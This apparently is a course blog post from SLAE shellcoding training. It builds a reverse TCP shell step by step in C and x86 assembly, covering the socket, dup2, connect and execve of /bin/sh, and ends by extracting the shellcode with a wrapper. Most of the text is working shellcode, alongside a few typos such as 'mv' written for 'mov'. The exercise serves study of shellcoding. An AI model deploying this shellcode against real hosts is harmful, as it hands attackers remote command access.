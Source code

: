 ```yaml
---
layout: single
title: "SLAE: Custom TCP Reverse shell"
excerpt: "This assignment will see us create and examine shellcode with a Reverse TCP shell as the payload."
date: 2020-06-18
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```


_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and examine shellcode with a Reverse TCP shell as the payload.

**What is the difference between the bind shell we created in our previous post and a reverse shell?**

Simply put, a BIND shell will open a port and start listening, when a connection is established a program (usually sh, bash, PS, cmd etc) and redirect all input and output the incoming connection. 
In a similar fashion a reverse shell will send a program over the wire to a listening port, and redirect all input.

To demonstrate I have made some modifications to my [previous C code](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/bind_tcp_shell.c), which basically consisted of removing the entire bid, listen and accept sections, and added connect:
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int socketfd;
struct sockaddr_in servaddr;

int main() { 
	//Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(AF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

	//Initialize servaddr struct 
    servaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    servaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //connect to remote address
    connect(socketfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

	//Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
}
```

Just from amending the code, I have a pretty good idea on how this is going to go down. Much of the code will be the same as the [previous blog](https://rawrradiomouse.github.io/slae-1/), with the main difference being that we have to consider that some ip addresses may have x00 in them.

* __NR_socketcall	  102
    * SYS_CONNECT	3
* __NR_dup		     41
* __NR_execve		   11


![socketcall](/assets/images/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value goes in al
* function type goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    xor ebx, ebx  ; SHELLCODE DID NOT WORK WITHOUT THIS HERE, IT WILL WORK WITH NASM BUT NOT AS SHELLCODE DUE TO REGISTER NOISE!!!
    mv bl, 1     ; we set function to 1, which is the value of socket
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
**IT TOOK ME A LONG TIME TO FIGURE WHY MY SHELL WOULD NOT WORK, it is because as we are sending the connection out and not waiting we need to call dup BEFORE we send the shell down the wire.**

The DUP syscall section is as it was in our bind exercise.

Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx, ecx
    xor eax, eax
loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

As we see from the man page, the connect syscall follows the same structure as listen. The only difference is that we need to be mindful of nulls in the address - I opted to try and solve this issue by pushing an ip with each octet incremented by 1, only to subract again straight after.

![connect](/assets/images/SLAE_2/2.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ecx, ecx
    mov ecx, 0x02010180 ; push 128.1.1.2 (flipped, so it actually goes on as 2.1.1.128)
    sub ecx, 0x01010101 ; subtract 1.1.1.1
    push ecx ; push our modified address on
    push word 0x5C11 ; push on reversed value of 4444
    push word 0x2 ; push value of AF_INET
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    xor ebx, ebx
    mov bl, 3 ; we set function to 3, which is the value of connect
    xor eax, eax
    mov al, 102
    int 0x80
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f6e
    push 0x69622f2f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
I compiled my code and tested, reverse shell was caught and succesful:
After all this, we can see as below I was able to catch the reverse shell:

![start_bindlisten](/assets/images/SLAE_2/3.JPG)


It is time to work on our wrapper, I used [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) to extract the shellcode: 
![connect_to_shell](/assets/images/SLAE_2/4.JPG)

I took my original [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) and [edited it](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) to make a reverse shell version.

A per screen below the script is both fool-proof and accurate.
![rev_wrapper.py](/assets/images/SLAE_2/5.JPG)

I tested my shellcode, and hit a brick wall... My shell would send back when compiled in nasm, but not with c!!
This is due to the fact I did not xor out EBX in the very beginning, this is very important when running code in c, as we do not know what the register state could end up being.

I perservered with the help from a friend, and as below, caught my shell sent from shellcode :)
![rev_wrapper.py](/assets/images/SLAE_2/6.JPG)
![rev_wrapper.py](/assets/images/SLAE_2/7.JPG)


